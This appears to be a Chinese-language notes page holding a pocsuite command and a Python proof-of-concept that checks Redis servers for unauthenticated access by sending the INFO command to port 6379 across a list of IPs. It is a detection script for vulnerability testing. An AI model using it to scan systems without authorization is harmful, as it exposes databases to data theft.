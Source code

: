 ### 测试是否存在redis未授权
> pocsuite -f redis_ip.txt -r redis_poc.py -proxy 127.0.0.1:1080 

#### 利用POC:
```python
#!/usr/bin/env python
# -*- coding:utf-8 -*-

import socket
import urlparse
from pocsuite.poc import POCBase, Output
from pocsuite.utils import register


class TestPOC(POCBase):
    vulID = '89339'
    version = '1'
    author = ['Anonymous']
    vulDate = '2015-10-26'
    createDate = '2015-10-26'
    updateDate = '2015-10-26'
    references = ['http://sebug.net/vuldb/ssvid-89339']
    name = 'Redis 未授权访问 PoC'
    appPowerLink = 'http://redis.io/'
    appName = 'Redis'
    appVersion = 'All'
    vulType = 'Unauthorized access'
    desc = '''
        redis 默认不需要密码即可访问，黑客直接访问即可获取数据库中所有信息，造成严重的信息泄露。
    '''
    samples = ['']

    def _verify(self):
        result = {}
        payload = '\x2a\x31\x0d\x0a\x24\x34\x0d\x0a\x69\x6e\x66\x6f\x0d\x0a'
        s = socket.socket()
        socket.setdefaulttimeout(10)
        try:
            host = urlparse.urlparse(self.url).netloc
            port = 6379
            s.connect((host, port))
            s.send(payload)
            recvdata = s.recv(1024)
            if recvdata and 'redis_version' in recvdata:
                result['VerifyInfo'] = {}
                result['VerifyInfo']['URL'] = self.url
                result['VerifyInfo']['Port'] = port
        except:
            pass
        s.close()
        return self.parse_attack(result)

    def _attack(self):
        return self._verify()

    def parse_attack(self, result):
        output = Output(self)
        if result:
            output.success(result)
        else:
            output.fail('Internet nothing returned')
        return output

```